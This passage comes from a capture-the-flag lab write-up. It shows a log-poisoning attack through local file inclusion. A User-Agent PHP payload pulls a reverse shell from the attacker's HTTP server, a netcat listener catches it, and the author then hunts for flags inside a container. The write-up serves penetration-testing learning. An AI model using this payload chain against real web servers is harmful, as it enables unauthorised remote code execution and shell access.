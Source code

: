 Hopefully you are using some kind of editor (like VSCode) to stage these things, as this can get really messy and confusing to try to construct this live on the command-line. Then, you accidentally hit up-arrow and you lose it all!

Alas, I didn't have much luck with this approach. The answer is probably to escape more of the special characters, but I decided to just move on to another technique.

### Option 2: Directly downloading a reverse shell, as our `User-Agent`

The kill chain on this one is a little more straight-forward. Basically:

1. Run `nc -lvnp 9000` to listen for the reverse shell. Set up your reverse shell file to connect on port 9000.
2. Run `python3 -m http.server 8000` from a folder where you have your reverse shell file.
3. On our web request, modify the `User-Agent` to be something like:

    ```php
    GET /?view=./dog/../../../../var/log/apache2/access.log&ext HTTP/1.1
    Host: 10.10.67.160
    User-Agent: "<?php file_put_contents('revshell.php', file_get_contents('http://10.6.90.119:8000/revshell.php'));?>"
    ```

4. Navigate to `/revshell.php` on the web server and you should get a connection over in netcat.

> **TIP:** This [pentestmonkey Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell) is great. Just set your IP address and listening port, and you can re-use this over and over.
{: .prompt-tip }

### Unprivileged Access

Using Option 2, above, I was able to get a reverse shell as `www-data`. There are several things "weird" about this connection:

1. I can't "upgrade" the shell with Python `pty` or `script`, neither Python nor script are installed. See: [Cheatsheet](/cheatsheet/#concept-upgrading-a-fragile-shell) for more details.
2. Running `hostname` shows the host name as `b2deba11a79a` as opposed to a word-based server name (e.g. `server1`, `dogcat`, etc.
3. It doesn't look like SSH is installed, but `nmap` DID show it as installed?!

What is going on here? Spoiler: **We are running in a container.** More on this in a minute, let's see if we can capture some flags. We run something like this to find any files with the word "flag" in it, and `2>/devnull` means send an errors (`STDERR`) to `/dev/null` (don't show them on the screen):

```bash
find / -name *flag* 2>/dev/null
```

#### Flag 1 of 4

Is located here: `cat /var/www/html/flag.php`

#### Flag 2 of 4
